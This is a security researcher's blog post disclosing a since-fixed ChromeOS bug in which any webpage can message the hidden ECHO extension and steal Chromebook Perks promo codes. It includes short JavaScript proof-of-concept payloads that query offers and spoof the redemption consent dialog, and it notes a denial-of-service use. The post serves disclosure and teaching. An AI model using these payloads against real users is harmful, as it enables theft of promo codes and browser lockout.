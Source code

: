 ```yaml
---
title: Abusing the Chromebook Perks System to Steal Promo Codes
date: 11/18/23
description: The Chromebook Perks page lets you redeem a few promo codes for your Chrome OS device, but how this page actually validates your device is rather interesting. Unfortunately for Google, they didn't make this system very secure.
url: https://ading.dev/blog/posts/echoanywhere.html
---
```


## Introduction:
If you've ever owned a personal Chromebook, then you've likely seen the [Chromebook Perks](https://www.google.com/chromebook/perks/) page. This site hosts a list of offers for your specific Chrome OS device, and lets you redeem some promo codes for various services. The interesting part about this page is how it actually validates whether or not you're using an eligible device. Unfortunately for Google, they didn't make this system very secure. 

## The Chromebook Perks System:
The Perks page isn't actually responsible for checking the available offers and redeeming them. Instead, this is handled by a hidden Chrome extension called ECHO, which the webpage can send data to. Just like QuickOffice, ECHO is a component extension, meaning that it's included with every Chrome OS installation. Also, it should be noted that all of this code is inside the proprietary portion of Chrome OS, which is probably why this bug was only discovered recently. 

The ECHO extension (sometimes called "Chrome Goodies") has access to a few private Chrome APIs, the most important one being `chrome.echoPrivate`. This API is responsible for the user consent prompt, as well as returning a list of valid offers. The extension also has the ability to retrieve hidden system information, such as the board name and the device ID, which is used for the validation aspect.

The method that the Perks page uses to communicate to the extension is rather shoddy. For whatever reason, instead of using the [`chrome.runtime`](https://developer.chrome.com/docs/extensions/reference/runtime/) API to handle this, Google opted to use an iframe. The page simply puts an extension page inside an iframe (`chrome-extension://kddnkjkcjddckihglkfcickdhbmaodcn/broker.html`) and posts messages to it via `iframe.postMessage`. Apparently this may have once been an intended feature, but who knows what they were thinking back in 2012 when most of this code was written.

After this, the `broker.html` page receives the posted data and passes it on to the extension's background page (this time using `chrome.runtime`). This is where the private APIs mentioned earlier are actually used. The response is passed back to `broker.html`, which finally returns this data to the Perks page by posting a message to its parent. 

## The Vulnerability:
Chrome only lets regular webpages iframe an extension page if that extension has explicitly allowed it. Normally, to reduce the chances of abuse, an extension would restrict access to only a few domains. The manifest of the ECHO extension, however, allows *any* webpage to access `broker.html`, via the [`web_accessible_resources`](https://developer.chrome.com/docs/extensions/mv2/manifest/web_accessible_resources/) property. Additionally, the ECHO extension never checks where the messages originate from, so any webpage is able to impersonate the Perks page and communicate with the extension.

What's puzzling about this bug is that the code for handing `chrome.runtime` messages is already present in the extension, so there's no reason to use the insecure iframe method. Also present in the Chrome Perks system [is code which utilizes](https://web.archive.org/web/20231116025133/https://www.gstatic.com/chromeos/offers/js/echo_provider_api.js) the removed [Web Intents](https://en.wikipedia.org/wiki/Web_Intents) API to communicate with the extension. This API only existed for six Chrome versions (18 to 23) before being removed in 2012. Even after this bug was fixed, the broken Web Intents code *still* exists in the current Chrome Perks page.

So what can an attacker do with this anyways?

## Possible Payloads:
Here's a minimal proof-of-concept which is able to post messages to the extension and get all the offers the current device is eligible for, as well as any previously redeemed promo codes.
```js
let iframe = document.createElement("iframe");
iframe.src = "chrome-extension://kddnkjkcjddckihglkfcickdhbmaodcn/broker.html";
iframe.style.display = "none";
iframe.onload = () => {
  iframe.contentWindow.postMessage({
    cmd: "getOfferInfo"
  }, "chrome-extension://kddnkjkcjddckihglkfcickdhbmaodcn");
};
window.addEventListener("message", console.log);
document.body.append(iframe);
```

A webpage is also able to trigger the user consent prompt for redeeming an offer. If the user hits allow, then the offer gets redeemed, with the malicious page receiving the stolen promo code. 
```js
iframe.contentWindow.postMessage({
  origin: "https://www.google.com/chromebook/perks/",
  serviceId: "minecraft.2023",
  serviceName: "free minecraft fr fr",
  requestNonce: ""+Math.random(),
  isGroupType: false,
  isDebugMode: false,
  otcCode: false
}, "chrome-extension://kddnkjkcjddckihglkfcickdhbmaodcn");
```

Once this code is run, the following popup gets displayed:

![the fake user consent popup](/blog/assets/echoanywhere/echo_popup_small.png)

In this case, the `serviceId` determines which offer gets redeemed, with the `minecraft.2023` offer corresponding to the [free Minecraft](https://chromeunboxed.com/chromebook-perk-minecraft-realms) promotion happening right now. Once the user hits the "allow" button, the offer will be redeemed, and the malicious page can see the returned promo code. 

The service name can also be set to any string, which will influence what is shown in the dialog. If this is set to a long enough string, the "wants to check if you are using an eligible Chrome OS device" part of the dialog disappears. This dialog is also able to block all inputs to the browser window, which can be used for a denial-of-service attack.

## Conclusion:
I reported this vulnerability to Google on May 6th, 2023. It was immediately classified as P1/S1 (high priority, high severity), although it would take until August 10th until it would finally be fixed. In February 2024, Google eventually paid me $500 for this bug report.

You can take a look at the original [bug report](https://bugs.chromium.org/p/chromium/issues/detail?id=1443214) if you want, and here's a link to my [final POC](https://local.ading.dev/echoanywhere/).

Anyways, it turns out that if you still ship legacy proprietary code from 2012, large security issues will show up as soon as someone actually takes a good look at it. Sure enough, other portions of the ECHO system turned out to be vulnerable as well, as [Bypassi](https://blog.bypassi.com/) would discover soon after. But that's a story for another day.